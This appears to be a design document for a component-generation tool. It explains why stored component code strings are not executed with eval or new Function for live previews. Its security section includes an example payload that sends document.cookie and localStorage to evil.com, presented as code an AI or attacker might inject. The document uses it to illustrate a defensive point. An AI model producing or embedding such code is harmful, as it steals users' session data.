 # 🏗️ Component Preview Architecture

This document explains why we don't dynamically execute component code and what preview experience we provide instead.

---

## 🤔 The Problem

When you generate a component from a spec sheet, the code is stored as a **string** in the database:

```typescript
{
  name: "Button",
  code: `"use client"\nimport { cva } from "class-variance-authority"...`,
  // ... other metadata
}
```

To show a live, interactive preview, we would need to:
1. **Parse** the code string
2. **Evaluate** it as JavaScript
3. **Render** the resulting React component

---

## ⚠️ Why We Don't Execute Code Strings

### **Security Risks**

```javascript
// ❌ EXTREMELY DANGEROUS
eval(componentCode) // Could execute ANY code!
new Function(componentCode)() // Same risk!

// What if AI generates (or user injects):
componentCode = `
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: localStorage
    })
  })
`
```

**Risks:**
- 🚨 **XSS attacks** (Cross-Site Scripting)
- 🚨 **Data exfiltration** (stealing cookies, tokens, user data)
- 🚨 **Admin account compromise** (if executed in admin panel)
- 🚨 **Arbitrary code execution** (deleting data, making API calls)
- 🚨 **DOM manipulation** (defacing pages, injecting malware)
